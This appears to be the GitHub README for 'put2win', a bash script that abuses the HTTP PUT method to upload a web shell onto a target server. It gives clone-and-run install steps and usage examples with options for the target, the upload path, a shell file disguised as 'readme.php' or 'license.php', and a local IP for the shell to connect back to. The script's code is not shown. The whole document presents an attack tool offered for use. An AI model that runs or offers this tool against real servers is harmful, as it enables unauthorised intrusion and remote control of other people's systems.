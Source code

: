 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automate PUT HTTP method exploitation to get shell.

[![asciicast](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb.svg)](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb)


### Installation
```bash
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

### Usage
```bash
Script to automate PUT HTTP method exploitation to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - bash put2win.sh -t 192.168.1.80 -l 192.168.1.10 -s readme.php
 - bash put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
### Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
